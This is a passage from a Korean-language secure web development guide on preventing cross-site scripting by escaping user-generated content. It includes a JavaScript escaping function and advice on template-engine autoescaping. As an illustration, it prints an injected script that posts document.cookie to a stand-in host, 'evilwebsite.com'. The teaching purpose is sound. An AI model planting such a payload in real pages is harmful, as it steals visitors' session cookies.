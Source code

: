 만약 악의적인 사용자가 `<script>` 요소를 포함한 소개글을 작성했다면, 이 HTML은 해당 소개글을 보는 모든 사용자에게 전송될 것입니다:

```html
<p>
<script>
  fetch('evilwebsite.com', { method: 'POST', body: document.cookie })
</script>
</p>
```

다행히도 이 문제는 아주 간단히 해결할 수 있습니다. 사용자가 제공한 데이터를 삽입할 때, 여덟 개의 문자를 그들의 비코드 대체 문자로 바꿔주기만 하면 됩니다. 
다음은 JavaScript로 작성된 예시입니다:

```js
/**
 * HTML 컨텍스트에서 악성 스크립트를 주입할 수 있는 문자를 치환합니다.
 */
export function escapeHtmlText(value) {
  const stringValue = value.toString()
  const entityMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;',
    '/': '&#x2F;',
    '`': '&grave;',
    '=': '&#x3D;'
  }

  // /[ ... ]/ 내부의 모든 문자와 일치시킵니다.
  const regex = /[&<>"'`=/]/g
  return stringValue.replace(regex, match => entityMap[match])
}
```

이 작은 JS 함수는 `<`을 `&lt;`, `"`을 `&quot;`로 바꿉니다. 이러한 문자들은 텍스트로 사용할 때 `<`와 `"`로 올바르게 렌더링되지만, 코드 구문으로 해석될 수는 없습니다. 
이전의 악성 소개글은 다음과 같은 HTML로 변환됩니다:

```html
<p>
&lt;script&gt;
  fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, data: document.cookie })
&lt;/script&gt;
</p>
```

이제는 안전하게 텍스트로 표시됩니다.

다행히도, 앞서 언급했듯이 수동으로 이스케이프할 필요는 없습니다. 이스케이프의 개념이 얼마나 간단한지를 보여주기 위해 예시를 든 것뿐입니다. 
모든 템플릿 엔진에는 자동 이스케이프 기능이 있으며, 어차피 템플릿 엔진을 사용하게 될 것입니다. 이스케이프가 활성화되어 있는지 확인하고, 모든 HTML을 이를 통해 전송하세요.

### 사용자 생성 콘텐츠는 HTML 태그 안에만 제공하기

이 규칙은 템플릿 엔진 규칙의 추가 사항이지만, 충분히 중요한 부분이므로 별도로 언급하고자 합니다. 
자동 이스케이프 템플릿 엔진을 사용하더라도 사용자가 임의로 CSS나 JS 콘텐츠를 정의하지 않도록 해야 합니다.
